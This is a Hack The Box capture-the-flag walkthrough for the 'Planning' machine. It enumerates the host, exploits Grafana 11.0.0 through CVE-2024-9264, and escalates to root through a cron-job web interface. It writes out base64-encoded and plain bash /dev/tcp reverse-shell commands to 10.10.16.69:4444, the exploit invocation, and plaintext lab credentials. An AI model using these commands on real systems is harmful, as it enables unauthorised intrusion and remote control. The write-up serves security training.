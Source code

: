 ```yaml
---
name: Planning
difficulty: easy
os: linux
platform: htb
date: 2025/07/02
releasedDate: 2099-12-31
userFlag: true
rootFlag: true

img: https://labs.hackthebox.com/storage/avatars/c9efb253e7d1d9b407113e11afdaa905.png
---
```


## Enumeration

We start by scanning the target machine for open ports using Nmap. We will use the `-p-` option to scan all ports and the `--open` option to filter out closed ports:

```bash
nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.11.68 -o allPorts
```

```
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

Now we will scan the open ports with service version detection and script scanning using `-sC` and `-sV` options

```bash
nmap -p 22,80 -sCV 10.10.11.68 -o targeted
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 62fff6d4578805adf4d3de5b9bf850f1 (ECDSA)
|_  256 4cce7d5cfb2da09e9fbdf55c5e61508a (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: Edukate - Online Education Website
|_http-server-header: nginx/1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

As we can see, there is a web service running on port 80. This website redirects us to `http://planning.htb`, so it is necessary to add the domain to our `/etc/hosts` file:

```bash
echo "10.10.11.68 planning.htb" | sudo tee -a /etc/hosts
```

We will try to detect the web application framework using `whatweb`:

```bash
whatweb http://planning.htb
```

```
http://planning.htb [200 OK] Bootstrap, Country[RESERVED][ZZ], Email[info@planning.htb], HTML5, HTTPServer[Ubuntu Linux][nginx/1.24.0 (Ubuntu)], IP[10.10.11.68], JQuery[3.4.1], Script, Title[Edukate - Online Education Website], nginx[1.24.0]
```

We will do a directory enumeration scan using `gobuster` to enumerate the web application:

```bash
gobuster dir -u http://planning.htb -w /usr/share/seclists/Discovery/Web-Content/common.txt
```

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://planning.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/css                  (Status: 301) [Size: 178] [--> http://planning.htb/css/]
/img                  (Status: 301) [Size: 178] [--> http://planning.htb/img/]
/index.php            (Status: 200) [Size: 23914]
/js                   (Status: 301) [Size: 178] [--> http://planning.htb/js/]
/lib                  (Status: 301) [Size: 178] [--> http://planning.htb/lib/]
Progress: 4746 / 4747 (99.98%)
===============================================================
Finished
===============================================================
```

As nothing interesting was found in directory enumeration and web application content, we will proceed with subdomain enumeration using `ffuf`:

```bash
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://planning.htb -H "Host: FUZZ.planning.htb" -fs 0
```

```
        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://planning.htb/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt
 :: Header           : Host: FUZZ.planning.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 178
________________________________________________
grafana                 [Status: 302, Size: 29, Words: 2, Lines: 3, Duration: 237ms]
```

We should add the subdomain `grafana.planning.htb` to our `/etc/hosts` file:

```bash
10.10.11.68 planning.htb grafana.planning.htb
```

## User Exploitation

We access grafana at `http://grafana.planning.htb` and we are greeted with a login page.
We can log in using credentials given in the description of the machine:

```
Username: admin
Password: 0D5oT70Fq13EvB5r
```

We can check grafana version in `http://grafana.planning.htb/api/health`, we see that is running version `11.0.0`

We can use `https://github.com/nollium/CVE-2024-9264` to exploit a vulnerability in Grafana 11.0.0 that allows us to execute arbitrary code.
We clone the repository and run the exploit:

```bash
git clone https://github.com/nollium/CVE-2024-9264.git
cd CVE-2024-9264
pip install -r requirements.txt
python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c <shell-cmd> http://grafana.planning.htb
```

We will encode base64 the following code to get a reverse shell:

```bash
echo "sh -i >& /dev/tcp/10.10.16.69/4444 0>&1" | base64
```

Then we run the exploit with the encoded command:

```bash
python CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c 'echo c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTYuNjkvNDQ0NCAwPiYxCg | base64 -d | bash'  http://grafana.planning.htb
```

We are in a Docker container. We can check by running the following command:

```bash
hostname -I
```

```
172.17.0.2
```

We can get credentials on ENV variables:

```bash
env
```

```
...
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
GF_SECURITY_ADMIN_USER=enzo
...
```

We can use these credentials to login via ssh

```bash
ssh enzo@planning.htb
```

We can find the user flag in the home directory:

```bash
cat /home/enzo/user.txt
```

```
user flag value
```

## Root Exploitation

We can check if user `enzo` has sudo privileges:

```bash
sudo -l
```

```
Sorry, user enzo may not run sudo on planning.
```

We run `linpeas` to check for privilege escalation vectors:

```bash
./linpeas.sh
```

Found /opt/crontabs/crontab.db: New Line Delimited JSON text data

```json
{
    "name": "Grafana backup",
    "command": "/usr/bin/docker save root_grafana -o /var/backups/grafana.tar && /usr/bin/gzip /var/backups/grafana.tar && zip -P P4ssw0rdS0pRi0T3c /var/backups/grafana.tar.gz.zip /var/backups/grafana.tar.gz && rm /var/backups/grafana.tar.gz",
    "schedule": "@daily",
    "stopped": false,
    "timestamp": "Fri Feb 28 2025 20:36:23 GMT+0000 (Coordinated Universal Time)",
    "logging": "false",
    "mailing": {},
    "created": 1740774983276,
    "saved": false,
    "_id": "GTI22PpoJNtRKg0W"
}
```

Also found a service running on port 8000, which is not accesible from outside the machine. We do a port forwarding to access it:

```bash
ssh -L 8000:localhost:8000 enzo@planning.htb
```

We can access the service at `http://localhost:8000` and we are greeted with a login page. We can log in using the credentials we found in the crontab:

```
Username: root
Password: P4ssw0rdS0pRi0T3c
```

We can see a web interface that allows users to manage crontab jobs which will be runned by root. We can create a new job that will create a reverse shell for us. We can use the following command to create a new job:

```bash
bash -c "sh -i >& /dev/tcp/10.10.16.69/4444 0>&1"
```

Once the job is created we can run it by clicking on the "Run" button. This will execute the command as root and give us a reverse shell.

We get access to the root reverse shell:

```bash
cat /root/root.txt
```

```
root flag value
```

## Conclusion

This walkthrough demonstrated how to exploit a vulnerable Grafana instance to gain user access and then escalate privileges to root using a custom cron job. The process involved enumeration, exploiting a known vulnerability, and leveraging Docker container management to achieve the final goal of obtaining the root flag.
